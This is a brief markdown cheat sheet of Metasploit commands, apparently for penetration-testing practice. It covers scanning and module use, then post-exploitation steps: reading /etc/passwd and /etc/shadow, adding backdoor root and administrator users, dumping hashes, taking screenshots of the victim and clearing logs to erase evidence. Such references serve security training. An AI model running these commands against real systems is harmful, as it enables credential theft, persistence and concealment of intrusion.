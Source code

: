 ﻿# Metasploit Commands
`msfconsole`
## Use a Module. Tab to see all
`use <path-to-module>`

`info`: of module, RHOSTS, RPORT,etc
`help`

`search <keyword>`

`set RHOSTS <target-ip>`
### set RHOST GLOBALY
`setg RHOST <target-ip>`
`run`

### Show hosts saved
`hosts`
### Show services to exploit
`services`
### Import nmap results
`db_import <path-to-results>`
### Run commands of nmap in Metasploit
`db_nmap <ip> --top-ports 1000 -T5 -n -Pn -sV`
`services`


## Command shell session 1 opened (ip...)
### Checking
`id` --> uid=0(root) gid=0(root)
`pwd`
`ls`
`ifconfig
#password
cat /etc/passwd
#password hashes
cat /etc/shadow

#Put session to Background
Ctrl+Z
### Get sessions
sessions
### Get back to a specific session
sessions -i <session-id>

### Create user with sudo (Oneliner)
useradd -u <id> -g root -d /home/<user-name> -s /bin/bash -p $(echo <user-passwd> | openssl passwd -1 -stdin) <user-name>

### Search ID of exploit in exploit-db.com
search edb:<id>

show payloads

## Attacking Windows
### Gets a shell on meterpreter
help
hashdump
getuid
### Get elevated privileges
getsystem
### Screenshot the victim
screenshot
shell
    net view
    #Add user with admin privileges
    net user <user-name> <user-paswd> /ADD
    net localhroup administrators <user-name> /ADD

### Clear evidence from remote system
    exit
### Clears records
clearev

